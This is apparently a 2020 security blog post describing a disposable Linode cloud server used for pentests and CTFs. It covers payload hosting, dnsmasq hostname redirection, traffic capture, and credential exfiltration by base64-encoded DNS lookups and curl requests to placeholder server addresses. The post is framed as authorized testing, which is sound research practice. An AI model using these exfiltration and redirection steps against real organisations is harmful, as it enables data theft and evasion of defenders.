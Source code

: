 ```yaml
---
title: "Dynamic Public Cloud Server for the Win"
date: 2020-01-03 09:00:00 +0000
layout: post
author: OverCast
twitter: "https://twitter.com/DefCon864"
permalink: blog/dynamic-public-cloud-server-ftw.html
tags: [cloud, dns, intercept traffic, CTF, Linode]
---
```

> This is for the pirates who clap
> And love the sound
> Attacking from the cloud
> Then we're back and underground
~ Dual Core, All The Things

TL;DR.
  - Prevent your home IP from being banned
  - Simple, cheap Linux server with dynamic, public IP address
  - Route DNS, HTTP, TLS, or other traffic you want to intercept
  - Host services needed for research, CTF, or pentest engagement

# Overview
There are many reasons why masking your traffic is important.  One specific case relates to the tasks we perform during an authorized hack or researching a potential vulnerability.  Scanning, trial 'n error discovery and exploitation can generate lots of traffic which can lead to your home IP address finding its way on one or more black lists.  Getting a new public IP address for su casa is a pain in the neck while your family enjoys the throwback non-Internet lifestyle of 1985.  

I recently needed to run several external public services but did not want to open any holes in my home perimiter or stand up a domain.  Those would be overkill to validate what I was researching, validate data exfiltration and perimiter leak vulnerabilities.  My requirements are simply: a dynamic public IP address in the wild to host DNS and web servers, SSH access to inspect DNS and TLS traffic.  This would work for any online CTF or pentest engagement where you want to validate the target ability to communicate external to the organization.

The solution I went with -and it worked really well- was to spin up a [Linode Nanode server](https://www.linode.com/products/nanodes/).  The full engagement cost only $0.09 for 10 hours of system uptime.  In many respects this write-up is cloud vendor agnostic.  While I use [Linode](https://www.linode.com) here you can follow the same steps on a different provider with minor variation.

 __*Warning:*__  This is not a replacement for a proper VPN or Tor usage (proxychains).  It is a quick 'n fast means with little commitment to separate my public IP from the equation.

## Setup
Signing up for the cloud provider is a straight forward process.  No surprises here.  Creating a Nanode is just two steps:
1. Click __Create__

![create](/images/overcast/dynamic-public-cloud-server-ftw/01-create-a-nanode.png){:height="50%" width="50%"}

2. Define your settings
* Pick a __distro__
* Select a __Region__
* __Be careful of the default!__  Under Linode Plan select the __Nanode__ tab and pick the only option at the hourly rate of $0.0075.  The default, Standard plans are more expensive.
* Don't worry about the label and tags.  This system won't live long.
* Set your SSH keys or a root password for connecting.
* Click __Create__

![settings](/images/overcast/dynamic-public-cloud-server-ftw/02-nanode-settings.png){:height="50%" width="50%"}

Once you click the create button it takes a few seconds for the new box to provision and boot.  The __Summary__ page lists the IPv4 and IPv6 addresses.

![boot](/images/overcast/dynamic-public-cloud-server-ftw/03-boot.png){:height="50%" width="50%"}

Two console web shells options are provided by Linode (Weblish and Glish) but you'll want to use your own SSH session from your box.  Once you gain SSH access you can do all the normal sysadmin things to scaffold your platform.  I was raised by graybeards so the lack of maintaining tools such as netstat and ifconfig is disconcerting to say the least.  Yet I will resist the urge to install net-tools.  This host is bare bones right now so let's add what we need.

```bash
apt-get -y update
apt-get -y install nmap socat dnsmasq tcpdump
```

For those wondering, at this point your network transfer usage will be around 94 kb.  If you run an apt-get -y upgrade that number will change.

## So what can I do with this?  Here are some sample scenarios.
### Scan Your Home Public IP Address
You now have an external point of presence why not take a look at how the world sees you?  This is probably one of the most practical scenarios for anyone in IT.  It's always a good idea to get a street view of your home network.  Anything showing up that you didn't expect?
```nmap -T3 -sC -sV -Pn -p1-65535 HOME_IP```

### Public Web Server for Exploits
The simplest solution, host a temporary web server to test or exploit a vulnerability.  In this case the Nanode server runs python's SimpleHTTPServer hosting a desired payload.
```bash
mkdir badweb
cd badweb
echo "my bad payload for exploiting CSRF or some such vector" > payload.html
```
Start the web server to serve up those delicious payloads of wonder.
```python -m SimpleHTTPServer 80```
Or install Apache and operate out of /var/www/html.  The researcher triggers the vulnerability causing the target to call the Nanode web server's payload.  If this lights up a sysadmin radar or triggers a ban, no worries, destroy this nanode and start over.

### DNS Server
Name resolution plays an important role on a network.  If a network has improper egress filtering DNS can be used for exfiltration or to route internal targets to exploits hosted on your web server.  In my case I had control of the resolution process and wanted to route internal web server requests to my public web server.

On the nanode edit __/etc/dnsmasq.conf__:
* Uncomment the "__#no-resolv__" line (around line 54) so that your DNS server won't send requests upstream.
* Uncomment and modify line 131 to point to your local file for dnsmasq host resolution instead of /etc/hosts.
    ```addn-hosts=/etc/dnsmasq.hosts```
* Create the __/etc/dnsmasq.hosts__ file and set your bad web server IP address (eg. 1.2.3.4) to the hostname of the internal good web server.  This will resolve the good web server name to your bad web server.
```1.2.3.4  goodwebserver.company.com```

The addn-host file (dnsmasq.hosts) can be named anything and has the same content format as /etc/hosts.  Be aware though Linux can default to running its preinstalled dnsmasq as a service.  So if you attempt to start manually it will throw errors.  If you want greater control the default service can be stopped ```service dnsmasq stop``` and run manually ```dnsmasq --no-daemon --log-queries --log-facility=/var/log/dnsmasq.log```.  When not run in the background (or without tcpdump) the log file can be tailed to show any DNS queries ```tail -f /var/log/dnsmasq.log``` or parsed by one of your amazing scripts.

### Inspect Traffic
```tcpdump udp port 53 or tcp port 80 or tcp port 443```
For more verbosity use ```-v``` or ```-vv``` for a flood of connection information.  When you are in security researcher mode it helps to limit the scope to the specific protocol and port being evaluated.  This prevents unnecessary noise and keeps the content concise for the write-up.

If you have data to exfiltrate, such as ```echo "user:admin;pass:pfi9503" | base64 | sed 's/=//g'```, send it to your DNS server.
```nslookup dXNlcjphZG1pbjtwYXNzOnBmaTk1MDMK NANODE_DNS_IP_ADDRESS```
Your DNS server or tcpdump shows the query which you know to be base64 encoded.  When decoded this reveals not a hostname but the internal data ```user:admin;pass:pfi9503```.
Or if you only control a remote web server you can pull similar method from its logs by sending a request with the encoded data to exfiltrate.
```curl https://NANODE_IP_ADDRESS/superfuntime/dXNlcjphZG1pbjtwYXNzOnBmaTk1MDMK```
I use superfuntime as a control check for a script parsing the web log file to know when to decode.  It's not an actual directory or route and keeps the script from parsing any Internet noise. 

For the blue teamers among us this may be a great listening post to research the noise.

### Public CTF Box for DEF CON Group Meetings
While writing this post I thought of another use case.  Now that our meetings are both IRL and online this could be an interesting scenario for future DC864 meetings.  Instead of just having a CTF / vulnerable learning target on-site we can host it on a Nanode for both local and remote participants to use.  To reduce the traffic I'll probably pre-recon the box and provide it to the participants.  So if we cover a specific vector it can be the focus of the target and talk.  Even though there is a muscle memory learning benefit from recon to exploit to privelege escalation, etc. being hyper focused during meetings (eg. SQLi, LFI, etc.) could be a good thing.  Need to put a bit more brainery into this area before release so stay tuned or contribute ideas as you see fit.

Happy hacking everyone.